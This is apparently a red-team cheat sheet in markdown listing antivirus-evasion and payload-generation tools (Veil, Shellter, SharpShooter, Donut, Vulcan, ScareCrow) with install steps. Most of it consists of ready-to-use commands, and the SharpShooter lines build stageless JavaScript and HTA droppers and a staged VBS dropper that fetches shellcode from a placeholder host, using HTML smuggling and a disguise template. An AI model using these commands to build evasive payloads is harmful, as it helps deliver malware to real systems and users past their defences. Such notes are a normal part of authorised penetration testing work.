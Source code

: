 # Veil Framework
- Install on Kali:
    - `apt install veil`
    - `/usr/share/veil/config/setup.sh --force --silent`
- Source: https://github.com/Veil-Framework/Veil

# Shellter
- Source: https://www.shellterproject.com/download/
- `apt install shellter`

# Sharpshooter
- Javascript Payload Stageless:
    - `SharpShooter.py --stageless --dotnetver 4 --payload js --output foo --rawscfile ./raw.txt --sandbox 1=contoso,2,3`
- Stageless HTA Payload:
    - `SharpShooter.py --stageless --dotnetver 2 --payload hta --output foo --rawscfile ./raw.txt --sandbox 4 --smuggle --template mcafee`
- Staged VBS:
    - `SharpShooter.py --payload vbs --delivery both --output foo --web http://www.foo.bar/shellcode.payload --dns bar.foo --shellcode --scfile ./csharpsc.txt --sandbox 1=contoso --smuggle --template mcafee --dotnetver 4`
- Source: https://github.com/mdsecactivebreach/SharpShooter

# Donut:
- Source: https://github.com/TheWover/donut

# Vulcan
- Source: https://github.com/praetorian-code/vulcan

# Scarecrow
- Source: https://github.com/optiv/ScareCrow

- In Kali:
    `sudo apt install golang
    go get github.com/fatih/color
    go get github.com/yeka/zip
    go get github.com/josephspurrier/goversioninfo
    go build ScareCrow.go
    ./ScareCrow`